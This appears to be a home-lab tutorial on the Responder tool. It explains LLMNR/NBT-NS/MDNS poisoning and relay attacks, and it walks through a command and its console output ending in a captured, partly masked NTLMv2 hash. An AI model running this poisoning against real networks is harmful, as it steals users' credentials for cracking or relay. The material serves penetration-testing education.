 # 🔐 Responder

###  **What is Responder?**
Responder is an **LLMNR, NBT-NS, and MDNS poisoner** — meaning it listens for broadcast name resolution requests and responds to them with fake data, tricking machines into sending sensitive information (like hashes).

---

###  **Main Uses of Responder**
1. **Capturing NTLMv1/v2 Hashes**
   - If a victim machine tries to access a resource (like `\\nonexistent\share`) and can't resolve the name via DNS, it falls back to **LLMNR** or **NBT-NS**.
   - Responder replies with “Hey, I’m that machine!” and the victim sends over **NTLM hashes** to authenticate.
   - These hashes can be **cracked offline** or used in **relay attacks**.

2. **SMB Relay Attacks**
   - In combination with tools like **NTLMRelayX**, Responder can forward NTLM hashes to other systems (like SMB or LDAP) to gain access or escalate privileges.
   - Useful in scenarios where cracking hashes is impractical.

---

###  Common Protocols Targeted by Responder
- **LLMNR (Link-Local Multicast Name Resolution)**
- **NBT-NS (NetBIOS Name Service)**
- **MDNS (Multicast DNS)**
- **SMB, HTTP, FTP, IMAP, LDAP, SQL, etc.** — Responder can impersonate these services too.


###  **Use Case: Capturing NTLMv2 Hashes with Responder**

#### **Scenario**
You have:
- A **Windows domain environment** with a **Domain Controller (DC)**.
- One or more **Windows client machines** joined to the domain.
- A **Kali Linux box** (or any Linux system) on the same network running **Responder**.

#### **Objective**
Capture **NTLMv2 hashes** when a domain-joined machine tries to resolve an unknown hostname.

---

###  **Step-by-Step Walkthrough**

#### 1. **Run Responder on Kali**
```bash
sudo responder -I eth0 -dwv 
```
<img src="Imgs/image1.png" alt="Error loading image">

- Replace `eth0` with your actual interface (use `ip a` to check).
- Responder starts poisoning LLMNR and NBT-NS requests.

#### 2. **Simulate a User Trying to Access an Attacker system**
From a Windows machine, run:
```cmd
\\<Target ip>>
```
<img src="Imgs/image2.png" alt="Error loading image">

 Windows will first try DNS, and if that fails, it falls back to **LLMNR/NBT-NS**. That’s where Responder comes in.

#### 3. **Capture Hashes**
On Kali, we’ll see output like:

```bash
                                                                                                                                                            
┌──(kali㉿kali)-[~/Home-lab]
└─$ sudo responder -I eth0                                   

[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.129.137]
    Responder IPv6             [fe80::47e3:71c9:2b96:c9c7]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-Q0PDMTV8IGR]
    Responder Domain Name      [ZNAF.LOCAL]
    Responder DCE-RPC Port     [48776]

[+] Listening for 

[SMB] NTLMv2-SSP Client   : 192.168.129.141
[SMB] NTLMv2-SSP Username : FURIOUS\jack
[SMB] NTLMv2-SSP Hash     : jack::FURIOUS:057cf8ca8755df48:4171E167B691B8DCDDDE7B3522D7046C:010100000000000080B15D56F2B3DB0128C5A8DA0625D9B800000000020008005A004E004100460001001E00570049004E002D0051003000500044004D0054005600380049004700520004003400570049004E002D0051003000500044004D005400560038004900470052002E005A004E00410046002E004C004F0043004********************************************************************************************************************************************************************************************************
[+] Exiting...

```

we’ve captured a **hash** that can now be cracked with `hashcat` or relayed.

---




